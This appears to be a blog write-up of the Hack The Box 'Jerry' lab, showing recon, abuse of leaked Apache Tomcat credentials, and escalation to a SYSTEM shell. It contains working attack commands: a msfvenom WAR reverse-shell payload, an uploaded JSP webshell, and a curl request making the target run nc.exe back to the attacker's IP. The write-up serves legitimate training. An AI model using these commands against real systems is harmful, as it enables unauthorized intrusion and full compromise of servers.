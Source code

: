 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an `NT Authority\SYSTEM` shell, thus fully compromising the target."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/jerry.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Information Leakage
  - Abusing Tomcat [Intrusion & Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.95
```

![](/img2/Pasted%20image%2020250522153018.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.95:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250522164149.png)

- Leaked credentials

![](/img2/Pasted%20image%2020250522164224.png)

## Exploitation

- Upload .war reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=9000 -f war > shell.war
```

![](/img2/Pasted%20image%2020250522164341.png)

```bash
rlwrap nc -nlvp 9000
```

## Post-exploitation

- Apache Tomcat WebShell Privilege Scalation

```bash
searchsploit Tomcat Privilege Scalation
```

![](/img2/Pasted%20image%2020250526102938.png)

```bash
searchsploit -m windows/local/7264.txt
```

```bash
mv 7264.txt 7264.jsp
```

```bash
impacket-smbserver smb -smb $(pwd) -smb2support
```

- Change to web directory

```cmd
cd C:\apache-tomcat-7.0.88\webapps\ROOT
```

```cmd
copy \\10.10.16.7\smb\7264.jsp
```

- Send Reverse Shell

```bash
curl http://10.10.10.95:8080/cmd.jsp?cmd=C%3A%5CWindows%5CTemp%5Cnc.exe%2010.10.16.7%204444%20-e%20cmd.exe
```

```bash
rlwrap nc -nvlp 4444
```

- View flags file

```cmd
type 2*
```

![](/img2/Pasted%20image%2020250526103600.png)

![](/img2/Pasted%20image%2020250526103906.png)